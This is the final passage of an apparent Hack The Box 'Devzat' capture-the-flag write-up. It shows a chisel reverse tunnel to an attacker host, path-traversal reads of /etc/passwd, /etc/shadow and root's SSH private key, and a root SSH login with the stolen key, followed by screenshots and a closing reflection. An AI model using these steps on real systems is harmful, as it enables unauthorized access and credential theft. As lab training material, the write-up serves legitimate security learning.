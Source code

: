 ```bash
./chisel server -reverse -p 1234
```

> **Victime Machine**:

```bash
./chisel client 10.10.14.15:1234 R:8443:127.0.0.1:8443
```

> **Attacker Mahine**:

```bash
lsof -i:8443
ssh -l oldboy localhost -p 8443
  > /commands
  > /file /etc/passwd
  > /file ../../../etc/passwd
  > /file ../../../etc/shadow
  > /file ../../../root/.ssh/id_rsa

nvim id_rsa
chmod 600 id_rsa
ssh -i id_rsa_root root@10.10.11.118
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_69.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_70.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_71.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_72.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_73.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_74.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_75.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

> This box took me several hours of work and research, but with the help of the community, as well as the excellent resources available on the net (exploits, CVE, research) I was able to hack it. Every **Hack The Box** box always gives you a huge possibility to keep learning and expand your skills as a **Pentester**. I kill the box with **htbExplorer**, rest a bit and choose another lab to continue my path to personal and professional growth.

```bash
./htbExplorer -k Devzat
```
